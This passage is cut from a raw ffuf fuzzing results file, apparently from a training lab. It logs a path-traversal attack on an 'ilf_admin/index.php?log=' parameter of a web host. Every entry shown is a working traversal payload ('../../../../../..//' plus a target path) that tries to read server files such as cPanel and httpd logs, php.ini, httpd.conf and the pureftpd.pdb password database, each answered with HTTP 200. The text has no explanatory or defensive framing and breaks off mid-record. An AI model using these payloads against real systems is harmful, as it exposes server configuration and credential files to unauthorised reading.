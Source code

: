 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44303771,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf580","FUZZ":"/usr/local/cpanel/logs/license_log"},"position":128,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43214315,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs/license_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf581","FUZZ":"/usr/local/cpanel/logs/login_log"},"position":129,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44230880,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs/login_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf583","FUZZ":"/usr/local/etc/httpd/logs/access_log"},"position":131,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44094920,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/etc/httpd/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf582","FUZZ":"/usr/local/cpanel/logs/stats_log"},"position":130,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44488632,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/cpanel/logs/stats_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf585","FUZZ":"/usr/local/etc/php.ini"},"position":133,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44095200,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/etc/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf584","FUZZ":"/usr/local/etc/httpd/logs/error_log"},"position":132,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44422042,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/etc/httpd/logs/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf586","FUZZ":"/usr/local/etc/pure-ftpd.conf"},"position":134,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44149640,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/etc/pure-ftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf587","FUZZ":"/usr/local/etc/pureftpd.pdb"},"position":135,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45305847,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/etc/pureftpd.pdb","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf588","FUZZ":"/usr/local/lib/php.ini"},"position":136,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44804163,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/lib/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf589","FUZZ":"/usr/local/php4/httpd.conf"},"position":137,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44615752,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php4/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58a","FUZZ":"/usr/local/php4/httpd.conf.php"},"position":138,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44635252,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php4/httpd.conf.php","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58b","FUZZ":"/usr/local/php4/lib/php.ini"},"position":139,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44767673,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php4/lib/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58c","FUZZ":"/usr/local/php5/httpd.conf"},"position":140,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44827173,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php5/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58d","FUZZ":"/usr/local/php5/httpd.conf.php"},"position":141,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43705798,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php5/httpd.conf.php","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58e","FUZZ":"/usr/local/php5/lib/php.ini"},"position":142,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;